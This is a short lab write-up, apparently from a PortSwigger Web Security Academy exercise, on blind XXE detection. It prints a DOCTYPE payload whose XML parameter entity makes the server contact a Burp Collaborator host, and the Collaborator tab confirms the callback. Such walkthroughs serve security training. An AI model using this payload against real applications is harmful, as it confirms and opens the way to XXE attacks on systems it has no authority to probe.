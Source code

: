 ## Lab Description:  Blind XXE with out-of-band interaction via XML parameter entities

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/8e30124d-ee86-486b-b822-463b4abb1035)

## Solution: 

Visit a product page, click "Check stock" and intercept the resulting POST request in Burp Suite Professional.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/d3cfec48-1c97-45f0-9882-dc5246cc84b3)


![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/c1cfc15c-099f-4bd5-a322-2f182564b60e)


Insert the following external entity definition in between the XML declaration and the stockCheck element. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated:
```
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://r5xuiyg4qcq4rvhmbcogn1ie85ew2oqd.oastify.com"> %xxe; ]>
```

Here %xxe is a XML parameter entities 

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/b2c6ae64-f98f-4729-83e7-d794e9bc6586)

Go to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again. You should see some DNS and HTTP interactions that were initiated by the application as the result in our payload.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/2705ad0a-5858-4bc5-a47c-07dd33e862fe)

Lab Solved

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/53932566-ebd2-471a-b39c-0fdd70f23b1c)

